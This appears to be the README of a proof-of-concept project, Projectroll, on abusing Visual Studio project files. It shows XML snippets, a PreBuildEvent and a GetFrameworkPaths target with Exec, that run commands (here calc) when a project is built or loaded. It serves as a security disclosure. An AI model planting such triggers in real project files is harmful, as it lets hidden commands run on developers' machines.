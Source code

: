 # Projectroll

**Projectroll** exploits vulnerabilities in Visual Studio triggers, targeting project files like `.sln` and `.vcxproj`/`.csproj`. It demonstrates how arbitrary commands can be executed without compilation, revealing security risks in the development environment.



## Features

### 1. **PreBuildEvent**
Executes arbitrary commands before project compilation.
```xml
<PreBuildEvent>
    <Command>
    cmd /c calc
    </Command>
</PreBuildEvent>
```
```xml
<Target Name="GetFrameworkPaths">
    <Exec Command="calc.exe"/>
</Target>
```

## Credits
The vulnerability has been discovered by cjm00n & edwardzpeng (https://x.com/edwardzpeng)
